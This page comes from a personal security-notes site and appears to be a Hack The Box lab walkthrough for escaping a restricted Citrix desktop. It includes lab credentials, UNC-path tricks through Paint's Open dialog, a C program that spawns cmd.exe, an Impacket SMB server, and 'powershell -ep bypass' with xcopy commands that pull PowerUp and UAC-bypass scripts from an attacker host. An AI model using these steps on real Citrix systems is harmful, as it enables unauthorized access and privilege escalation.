

repository: amandaguglieri/hackinglife · page: citrix-breakout/index.html · generator: mkdocs

---
title: Citrix breakout
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
---
# Citrix breakout

There are many techniques which can be used for breaking out of a Citrix environment.

Accessing to a citrix environment:
1. Access to a url of the citrix env. In the HTB example (`http://humongousretail.com/remote/`) and enter with creds:

```citrixcredentials
Username: pmorgan
Password: Summer1Summer!
  Domain: htb.local
```

 After login, click on the `Default Desktop` to obtain the Citrix `launch.ica` file in order to connect to the restricted environment.
Double click to open it.

## Bypassing Path Restrictions

### Abusing dialog boxes

When we attempt to visit `C:\Users` using File Explorer, we find it is restricted and results in an error.

Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the operating system. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc.

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to `All Files` and upon hitting enter we gain access to the desired directory.

![](img/citrix.png)

### Accessing SMB share from restricted environment

```
# Entering to the windows citrix env, to return to Ubuntu use CTRL-Tab
# In ubuntu open a terminal
sudo su
cd /home/htb-student/Tools

```

Start a SMB server from the Ubuntu machine using Impacket's `smbserver.py` script.

```shell-session
smbserver.py -smb2support share $(pwd)
```

Back in the Citrix environment, initiate the "Paint" application via the start menu.

Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear.

Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field.

This is a file that we have hosted there: pwn.exe. This binary is the compiled binary from pwn.c:

```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory. Now we can:

```
powershell -ep bypass
cd c:\Users\pmorgan\Desktop
xcopy \\10.13.38.95\share\Bypass-UAC.ps1
xcopy \\10.13.38.95\share\PowerUp.ps1
xcopy \\10.13.38.95\share\pwn.exe
```

Even though without downloading these files, we could right-click the executable and get a cmd terminal. 

Once we access to the terminal, we can jump to Escalating privileges.
